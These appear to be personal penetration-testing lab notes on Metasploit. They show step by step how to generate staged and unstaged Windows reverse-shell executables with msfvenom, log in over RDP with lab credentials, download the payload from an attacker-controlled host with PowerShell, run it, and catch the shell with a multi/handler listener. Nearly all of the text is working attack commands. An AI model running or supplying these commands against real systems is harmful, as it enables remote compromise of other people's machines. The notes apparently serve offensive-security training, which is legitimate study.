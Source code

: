 find a file
```
meterpreter > search -f passwords
```

### executable payloads
- create payloads with msvenom
- create windows reverse shell

list available payloads
```
msfvenom -l payloads --platform windows --arch x64
```

create unstaged payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.181 LPORT=443 -f exe -o nonstaged.exe
```

log onto the windows machine, and serve up the payload file on kali
```
xfreerdp /u:justin /p:SuperS3cure1337# /v:192.168.227.202
```

from powershell, grab the file we are serving up
```
iwr -uri http://192.168.45.181/nonstaged.exe -Outfile nonstaged.exe
```

execute payload once we have a listener started on kali
```
.\nonstaged.exe
```

try the same thing with a staged payload
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.181 LPORT=443 -f exe -o staged.exe
```

with the staged payload, we can't execute any commands on the reverse shell
to get the console to work, we can use msfconsole (needed for any staged) (multi/handler module)
```
sudo msfconsole
use multi/handler
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.45.181
set LPORT 443
run
```

- for staged and other advanced payloads like meterpreter, netcat does not work
- we need to use metasploit to start a listener for the reverse shell

to run as background job
```
run -j
```

;ist out jobs
```
jobs
```
